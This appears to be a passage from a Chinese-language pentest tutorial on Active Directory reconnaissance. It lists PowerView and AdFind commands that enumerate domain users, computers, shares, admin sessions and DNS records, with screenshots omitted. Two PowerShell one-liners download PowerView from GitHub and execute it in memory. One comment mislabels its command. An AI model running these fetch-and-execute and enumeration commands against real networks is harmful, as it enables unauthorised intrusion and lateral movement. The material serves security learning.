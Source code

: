 ![1618599464_6079de28bb3ce510fb6bd.png!small](images/1618599464_6079de28bb3ce510fb6bd.png!small)

Get-NetUser #获取所有用户的详细信息

![1618599478_6079de366774ca7c6267f.png!small?1618599483443](images/1618599478_6079de366774ca7c6267f.png!small)

Get-NetComputer #获取域内所有机器的详细信息

![1618599516_6079de5c8319dcf682d09.png!small?1618599521789](images/1618599516_6079de5c8319dcf682d09.png!small)

Get-NetShare #获取当前域内所有的共享信息

![1618599526_6079de66ca4a42b32ef14.png!small?1618599531786](images/1618599526_6079de66ca4a42b32ef14.png!small)

Get-ADObject #获取活动目录的对象（内容超级多）

![1618599536_6079de70e87c220d603e4.png!small?1618599541915](images/1618599536_6079de70e87c220d603e4.png!small)

Invoke-UserHunter #获取域用户登陆的计算机信息，以及该用户是否有本地管理员权限

![1618599545_6079de79b151a4fd0206a.png!small?1618599550650](images/1618599545_6079de79b151a4fd0206a.png!small)

Invoke-ProcessHunter #通过查询域内所有的机器进程找到特定用户

![1618599555_6079de83b07580a7b4fa6.png!small?1618599560675](images/1618599555_6079de83b07580a7b4fa6.png!small)

**8.域内用户和管理员的获取与定位**

### **(1)adfind or powerview**

使用adfind或者powerview导出域用户信息可以查看

\# 查看域内用户详细信息：

adfind.exe -h DNS_SERVER_IP -sc u:username #目标用户

\# 查看域用户能登录的机器(userWorkstations)

adfind.exe -h DNS_SERVER_IP -sc u:username userWorkstations

\# 查看域内所有用户详细信息：

AdFind.exe -h DNS_SERVER_IP -sc u:* > result.txt

\# 查看域内所有用户详细信息

powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');Get-NetUser -Domain yoga.com > .\test.txt"

\# 使用修改组策略的方式限制登录

powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1');Invoke-EnumerateLocalAdmin > .\test.txt"

**(2)Dns****解析**

前提是拿到了域管，查看dc上面dns解析记录

dnscmd 127.0.0.1 /enumrecords yoga.com yoga.com. /type A
